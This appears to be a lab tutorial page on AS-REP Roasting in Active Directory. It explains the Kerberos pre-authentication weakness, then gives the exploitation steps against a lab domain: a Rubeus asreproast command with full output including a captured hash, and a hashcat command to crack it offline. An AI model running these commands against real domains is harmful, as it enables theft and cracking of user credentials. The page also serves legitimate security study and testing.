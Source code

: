 # AS-REP Roasting

If Kerberos Pre-Authentication is enabled, a [Timestamp](https://ldapwiki.com/wiki/Timestamp) will be [encrypted](https://ldapwiki.com/wiki/Encrypted) using the user's [password](https://ldapwiki.com/wiki/Password) [hash](https://ldapwiki.com/wiki/Hash) as an [encryption](https://ldapwiki.com/wiki/Encryption) [key](https://ldapwiki.com/wiki/Key). If the [KDC](https://ldapwiki.com/wiki/KDC) reads a valid time when using the user's password hash, which is available in the [Microsoft Active Directory](https://ldapwiki.com/wiki/Microsoft%20Active%20Directory), to decrypt the [Timestamp](https://ldapwiki.com/wiki/Timestamp), the [KDC](https://ldapwiki.com/wiki/KDC) knows that request isn't a replay of a previous request.

Without Kerberos Pre-Authentication a [malicious](https://ldapwiki.com/wiki/Malicious) [attacker](https://ldapwiki.com/wiki/Attacker) can directly send a dummy request for [authentication](https://ldapwiki.com/wiki/Authentication). The [KDC](https://ldapwiki.com/wiki/KDC) will return an [encrypted](https://ldapwiki.com/wiki/Encrypted) [TGT](https://ldapwiki.com/wiki/TGT) and the [attacker](https://ldapwiki.com/wiki/Attacker) can brute force it offline.

## Generate vulnerability

Activate

![image](https://user-images.githubusercontent.com/13157446/129409430-5b5cc59e-5ed3-4370-b8bf-f1fe1a00ef98.png)

## Exploitation

Run Rubeus

```text
PS C:\Users\thor\Desktop> .\Rubeus.exe asreproast /outfile:hash.txt /format:hashcat

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: AS-REP roasting

[*] Target Domain          : valhalla.local

[*] Searching path 'LDAP://odin.valhalla.local/DC=valhalla,DC=local' for AS-REP roastable users
[*] SamAccountName         : roastme
[*] DistinguishedName      : CN=roastme,CN=Users,DC=valhalla,DC=local
[*] Using domain controller: odin.valhalla.local (192.168.200.100)
[*] Building AS-REQ (w/o preauth) for: 'valhalla.local\roastme'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$roastme@valhalla.local:F4871226F4E82B420B51A83FF0ADC8ED$7BA4EC10E4675
      3B204A053744C7B003E5DDBC699CD6B3DB541865246D3E1ED7C798DE2245040824916266EBACF959
      1A663AF9A85129F51474CD250DAF4F290D24DCEAA196CC28B807431D4222EF1CDCBA40835FF6FC1A
      CF607A0291412D4E59E181359B6452AABC55B917C064A38EEDE9FEC825EA1DD72414FAE178691A4C
      541F26822317CB8B894E63581C90DD56A1D38DF0C1809F6A13B4166C4FB04A64C17ECF86D2538AF5
      C3BA2E4EE2D101BAD135EE6B3784DBC36BD94AFCC79E0271F9B84D3E1BA73659202FD15AB9B37EF4
      EEFB4C8318395D9FC80D8F83751030F799419BF16FED209F3BC2CFFB15FB9EBBC6A
```

Crack it

```text
hashcat -m 18200 hash.txt 500.txt --force 
```

